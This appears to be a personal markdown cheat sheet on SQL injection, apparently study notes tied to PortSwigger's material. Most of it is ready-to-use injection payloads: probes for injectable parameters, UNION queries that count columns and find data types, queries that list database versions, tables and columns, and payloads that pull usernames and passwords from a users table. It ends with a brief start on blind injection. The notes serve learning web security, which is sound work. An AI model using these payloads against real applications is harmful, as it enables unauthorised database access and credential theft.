 # SQL injection (SQLi) - cheat sheet
Portswigger sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

**Note:** don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	        SELECT banner FROM v$version
                SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	        SELECT @@version
~~~

example
~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables & columns
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

example tables
~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~

example columns
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
example
~~~
' UNION SELECT username, password FROM users--
~~~

example - concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~

## SQLi - BLIND Attack
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

**Note:** UNNION attacks are not effective with blind sql injection.